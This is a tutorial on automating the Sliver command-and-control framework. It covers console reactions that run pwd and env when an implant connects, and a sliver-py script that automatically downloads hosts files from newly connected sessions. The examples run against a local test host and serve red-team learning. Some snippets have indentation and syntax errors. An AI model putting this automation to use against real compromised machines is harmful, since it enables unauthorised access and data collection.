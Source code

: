 Reactions are a basic way to automate tasks in the sliver console, they allow you to specify sliver commands to run on a list of events.

```bash
Reactable Events:
   session-connected  Triggered when a new session is opened to a target
     session-updated  Triggered on changes to session metadata
session-disconnected  Triggered when a session is closed (for any reason)
              canary  Triggered when a canary is burned or created
          watchtower  Triggered when implants are discovered on threat intel platforms
          loot-added  Triggered when a new piece of loot is added to the server
        loot-removed  Triggered when a piece of loot is removed from the server
```

Let’s go ahead and create a reaction to list the current directory and environment variables when a new session checks in.

```bash
reaction set -e "session-connected"

[*] Setting reaction to: Session Opened

? Enter commands:  [Enter 2 empty lines to finish]pwd
env
? Enter commands:
pwd
env

[*] Set reaction to session-connected (id: 1)
```

The reaction is now set, if you spin up a new session these commands will be automatically run on that session’s initial connection.

```bash
[*] Session 99c7a639 UNEXPECTED_PORTER - 127.0.0.1:59966 (test.local) - darwin/amd64 - Thu, 04 May 2023 09:04:58 CEST

[*] Execute reaction: 'pwd'

[*] /Users/tester

[*] Execute reaction: 'env'

PWD=/Users/tester
COLORTERM=truecolor
...
```

You can remove reactions using `reaction unset`.

However, there are a couple of limitations to keep in mind when using reactions, first off these are run in the console you are currently using, which is not necessarily the server console. So if you are connected to a sliver server using the sliver client, if you disconnect the client the reactions are no longer running. 

Secondly reactions are a relatively basic mechanism, you can’t use any conditional statements or more complex background tasks with them. For more complex use-cases you can instead write your own client in Python or Typescript for example to connect to the server over gRPC, which we’ll cover next.

## Sliver-py

For the purposes of this tutorial we’ll write our extensions using Python3, however the same result is achievable using Typescript, Golang or any other language that can handle gRPC.

First, install the sliver-py extension using pip.

```bash
pip3 install sliver-py
```

Since our extension is essentially going to be another client connection to the sliver server, you’ll also need to enable multiplayer mode and generate a new profile

```bash
[server] sliver > multiplayer

[*] Multiplayer mode enabled!

[server] sliver > new-operator -n tester -l 127.0.0.1

[*] Generating new client certificate, please wait ...
[*] Saved new client config to: /Users/tester/tools/tester_127.0.0.1.cfg
```

We now have everything we need to start writing our scripts, let’s run our first example interactively in a Python shell. 
We first need to import a few dependencies, `SliverClientConfig` which is used to parse the client config we’ve just created and `SliverClient` which will handle the connection to the backend server.

```bash
Python 3.9.16 (main, Dec  7 2022, 10:06:04)
Type 'copyright', 'credits' or 'license' for more information
IPython 8.0.1 -- An enhanced Interactive Python. Type '?' for help.

In [1]: from sliver import SliverClientConfig, SliverClient

In [2]: DEFAULT_CONFIG = "/Users/tester/tools/tester_127.0.0.1.cfg"

In [3]: config = SliverClientConfig.parse_config_file(DEFAULT_CONFIG)

In [4]: client = SliverClient(config)

In [5]: await client.connect()
Out[5]:
Major: 1
Minor: 5
Patch: 37
Commit: "0a43dc688ffb31a0a38511c47e8547a44a6918d4"
CompiledAt: 1681408237
OS: "darwin"
Arch: "arm64"
```

From this point on we can use the client object to interact with the server, let’s start with listing any sessions or beacons that might be currently connected.

```bash
In [6]: beacons = await client.beacons()

In [7]: sessions = await client.sessions()

In [8]: beacons
Out[8]: []

In [9]: sessions
Out[9]:
[ID: "f80ec897-0870-4f03-a1b1-364e5a0d243c"
 Name: "UNEXPECTED_PORTER"
 Hostname: "test.local"
 UUID: "c6de1a44-016a-5fbe-b76a-da56af41316d"
 Username: "tester"
 UID: "501"
 GID: "20"
 OS: "darwin"
 Arch: "amd64"
 Transport: "http(s)"
 RemoteAddress: "127.0.0.1:60218"
 PID: 74773
 Filename: "/Users/tester/tools/UNEXPECTED_PORTER"
 LastCheckin: 1683185925
 ActiveC2: "http://127.0.0.1"
 ReconnectInterval: 60000000000
 PeerID: 4416183373589698218
 FirstContact: 1683185429]
```

To run commands on this session you’ll need to create an InteractiveSession object.

```bash
In [10]: interract = await client.interact_session("f80ec897-0870-4f03-a1b1-364e5a0d243c")

In [11]: await interract.pwd()
Out[11]: Path: "/Users/tester"
```

Now that we’ve got the basics of connecting to sliver and running commands down let’s write a more useful script that will display the hosts file when a new session checks in. Our goal is to first identify the Operating System, and then based on that retrieve and display the contents of the hosts file if it exists. Because this script will wait and react to events emitted by the Sliver server, we’re going to use `asyncio` to write our client.

```bash
#!/usr/bin/env python3

import os
import asyncio
from sliver import SliverClientConfig, SliverClient
import gzip

DEFAULT_CONFIG = "/Users/tester/tools/neo_127.0.0.1.cfg"

async def main():
    ''' Client connect example '''
    config = SliverClientConfig.parse_config_file(DEFAULT_CONFIG)
    client = SliverClient(config)
    await client.connect()

		async for event in client.on('session-connected'):
        print('Session %s just connected !' % event.Session.ID)

if __name__ == '__main__':
    loop = asyncio.get_event_loop()
    loop.run_until_complete(main())
```

As shown above we can access the session object through `event.Session`. Let’s go ahead and add a few conditions based on the operating system.

```bash
if event.Session.OS == "darwin":
            print('Session is running on macOS')

elif event.Session.OS == "Linux":
            print('Session is running on Linux')
elif event.Session.OS == "Windows"
            print('Session is running on Windows')
else:
            print('Session is running on %s', event.Session.OS)
```

Let’s setup an InteractiveSession object like previously.

```bash
interact = await client.interact_session(event.Session.ID)
```

We’re going to start with writing the code for Linux and Macos, since in their case the file is located in the same place. First we check if the file exists, then we download and decompress it to display its contents using gzip.

```bash
file_listing = await interact.ls("/etc/hosts")
if file_listing.Exists:
	gzipFile = await interact.download("/etc/hosts")
  contents = gzip.decompress(gzipFile.Data)
  print('%r' % contents)
```

The code for Windows is relatively similar the only major difference being the file location.

```bash
file_listing = await interact.ls("C:/Windows/System32/drivers/etc/hosts")
if file_listing.Exists:
	gzipFile = await interact.download("C:/Windows/System32/drivers/etc/hosts")
  contents = gzip.decompress(gzipFile.Data)
  print('%r' % contents)
```

If we run our script and spin up a few sessions we should start to see hosts files being retrieved.

```bash
python3.11 autocat.py
Automatically interacting with session 16338c85-b670-44ab-ac83-2df885654b07
b"# Copyright (c) 1993-2009 Microsoft Corp.\r\n#\r\n# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.\r\n#\r\n# ...

Automatically interacting with session 93fcbab2-f00d-44a4-944a-e1ea8ec324e2
b'##\n# Host Database\n#\n# localhost is used to configure the loopback interface\n# when the system is booting.  Do not change this entry.\n##\n127.0.0.1...
```
